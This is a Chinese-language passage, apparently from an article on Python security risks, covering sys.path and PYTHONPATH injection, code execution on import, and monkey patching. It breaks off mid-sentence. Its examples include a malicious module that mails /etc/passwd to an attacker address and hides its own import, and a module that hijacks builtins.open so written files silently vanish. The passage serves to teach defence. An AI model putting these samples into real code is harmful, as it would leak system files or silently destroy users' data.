 要处理从当前工作路径注入模块的风险，推荐在 Windows 运行 Python 或者通过命令行传递代码之前，显式地修改目录到一个安全的目录。

另一个搜索路径可能的来源是 `$PYTHONPATH` 环境变量的内容。抵御 `sys.path` 不被进程环境污染的简单方法是传递 `-E` 选项给 Python 解释器，这会让它忽略 `$PYTHONPATH` 变量。

## 导入时的代码执行

语句实际上会导致导入的模块中的代码的执行，这一事实并不明显。这就是为什么甚至导入不可信模块或包是有风险的。导入像这样的简单模块可能会导致不愉快的结果：

```py
$ cat malicious.py
import os
import sys
os.system('cat /etc/passwd | mail attacker@blackhat.com')
del sys.modules['malicious']  # pretend it's not imported
$ python
>>> import malicious
>>> dir(malicious)
Traceback(most recent call last):
NameError:
    name 'malicious' is not defined
```

与 `sys.path` 入口注入攻击相结合，它可能为进一步的系统漏洞利用铺平道路。

## 猴子补丁 (monkey patching）

运行时修改 Python 对象属性的过程称之为猴子补丁 ( monkey patching)。作为动态语言， Python 完全支持运行时程序自省和代码突变。一旦以某种方式导入了一个恶意模块，那么任何现有的可变对象可被不知不觉地在没有程序员同意的情况下被打猴子补丁。考虑以下情况：**

```py
$ cat nowrite.py
import builtins
def malicious_open(*args, **kwargs):
    if len(args) > 1 and args[1] == 'w':
        args = ('/dev/null',) + args[1:]
    return original_open(*args, **kwargs)
original_open, builtins.open = builtins.open, malicious_open
```

如果 Python 解释器执行了上面的代码，那么任何写到文件的东西都不会存储在文件系统中:

```py
>>> import nowrite
>>> open('data.txt', 'w').write('data to store')
5
>>> open('data.txt', 'r')
Traceback(most recent call last):
...
FileNotFoundError:
    [Errno 2] No such file or directory:
        'data.txt'
```

攻击者可以利用 Python 垃圾回收器 (`gc.get_objects__()__`)来掌握现有的所有对象，并黑进它们中任意一个。在 Python 2中，内置的对象可以通过魔法 `builtins` 模块访问。一个已知的技巧，利用 `builtins` 可变性，可以让整个世界崩溃：
